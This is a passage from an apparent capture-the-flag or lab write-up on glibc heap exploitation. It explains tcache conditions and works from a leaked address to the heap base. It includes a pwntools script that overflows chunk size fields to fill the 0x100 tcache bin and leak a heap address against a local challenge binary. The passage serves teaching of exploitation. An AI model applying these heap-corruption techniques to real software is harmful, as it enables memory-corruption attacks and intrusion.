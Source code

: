 ```
Leak: 0x5649afe98241
```
Knowing the heap's base address we can find the offset inside it of the address we are leaking:
```
0x5649afe98241 - 0x5649afe98000 = 0x241
```
And this offset will be constant across executions, so we can use it to find the heap base address
```python
heap = leak - 0x241
```
I just want to point out that *that* 0x41 is the 'A' we are introducing, which is overwriting the address' original least significant byte, but it doesn't matter, it's just an offset, it doesn't contain any information, it constitutes one of the not randomized parts of the address.

## Breaking free (or filling a tcache bin)
After a *bit* of celebration we must return to the crude reality, this was just the first in the long and twisted checklist that binary exploitation constitutes. So... next step: we want to leak a libc address, so tcache won't be enough (because no chunk will ever have a pointer to the libc), thereby we need to break free() from this prison. As we saw earlier, the necessary conditions for `free()` to put a chunk into the tcache are:
- The chunk must have a size in range of tcache, which is any `size <= 1040`, met, since we are confined to `size <= 528` there is nothing we can do here.
- The tcache must be initialized, met; there is just no way we can stop malloc from initializing it.
- The respective tcache bin must not be full. A tcache bin is considered to be full when it contains 7 chunks. So before we'd put 2 chunks in the same bin, now we only need to do that five more times:

```python
from pwn import *

r = process("./binary")
deltat = .05

### Fill tcache bin for 0x100 ###
log.info("Filling tcache bin 0x100")
log.info("Allocating 0x100") # First one is for free
r.write(b"A" * (0x100 - 8) + b'\0'); sleep(deltat)
for i in range(6):
    log.info("Allocating 0x%03x" % (0x1f0 - (i * 0x10)))
    r.write(b"A" * (0x1f0 - (i * 0x10) - 8) + b'\0'); sleep(deltat)
log.info("Allocating 0x100 (overflowing)")
r.write(b"A" * (0x100 - 9) + b'\n' + b'\0'); sleep(deltat)
for i in range(5):
    log.info("Allocating 0x%03x (overflowing)" % (0x1f0 - (i * 0x10)))
    r.write(b"A" * (0x1f0 - (i * 0x10) - 9) + b'\n' + b'\0'); sleep(deltat)
# Last one doesn't need to be overflowed
log.info("Allocating 0x1a0")
r.write(b"A" * (0x1a0 - 8) + b"\0"); sleep(deltat)

### Leak heap ###
r.clean()
log.info("Allocating 0x100 (leaking)")
r.write(b"A" * (0x100 - 8) + b'\0'); sleep(deltat) # Pre-fill stack buffer
r.write(b"A"); sleep(deltat)
heap = int.from_bytes(r.read()[-6:], "little") - 0xa41
log.info("Heap : 0x%06x" % heap)
```
We are now allocating six chunks with different sizes, otherwise we would just allocate and release the same chunk back and forth six times. Then from each one of them we will overflow into the next one, changing their size field to 0x100. Once every chunk is allocated to be overflowed and freed they all will be in the tcache bin for 0x100, filling it (the last one doesn't need to be overflowed). Notice also that the offset of the address we leak from the heap had to be adjusted, from 0x241 to 0xa41. With gdb + gef we can check that we indeed have filled the tcache bin for 0x100: